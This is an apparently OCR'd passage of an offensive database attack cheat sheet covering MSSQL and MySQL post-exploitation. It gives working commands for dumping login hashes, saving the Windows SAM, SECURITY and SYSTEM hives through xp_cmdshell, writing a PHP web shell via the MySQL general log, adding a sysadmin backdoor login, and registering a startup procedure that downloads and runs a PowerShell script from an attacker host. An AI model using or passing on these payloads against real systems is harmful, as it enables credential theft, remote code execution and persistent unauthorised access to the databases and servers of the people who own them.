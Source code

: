 **Chaining linked servers:**
If Server A links to Server B, and Server B links to Server C, you can chain queries to reach Server C.

## Hash Extraction

**Extract MSSQL user hashes:**
```sql
SELECT name, password_hash FROM sys.sql_logins;
```

**Hash format:**
MSSQL 2005+ uses SHA-512 based hashes (hashcat mode 1731).

**Extracting Windows hashes via xp_cmdshell:**
```sql
EXEC xp_cmdshell 'reg save hklm\sam c:\temp\sam.save';
EXEC xp_cmdshell 'reg save hklm\security c:\temp\security.save';
EXEC xp_cmdshell 'reg save hklm\system c:\temp\system.save';
```

Then download and extract with secretsdump.

## Log File Manipulation

**Enable general log:**
```sql
SET GLOBAL general_log = 'ON';
SET GLOBAL general_log_file = '/var/www/html/shell.php';
```

**Write malicious query to log:**
```sql
SELECT '<?php system($_GET["cmd"]); ?>';
```

**Disable logging:**
```sql
SET GLOBAL general_log = 'OFF';
```

## Persistence

**Create backdoor login:**
```sql
CREATE LOGIN backdoor WITH PASSWORD = 'P@ssw0rd123';
EXEC sp_addsrvrolemember 'backdoor', 'sysadmin';
```

**Startup stored procedure:**
```sql
USE master;
CREATE PROCEDURE sp_backdoor AS
EXEC xp_cmdshell 'powershell -c "IEX(New-Object Net.WebClient).DownloadString(''http://attacker/shell.ps1'')"';

EXEC sp_procoption @ProcName = 'sp_backdoor', @OptionName = 'startup', @OptionValue = 'on';
```

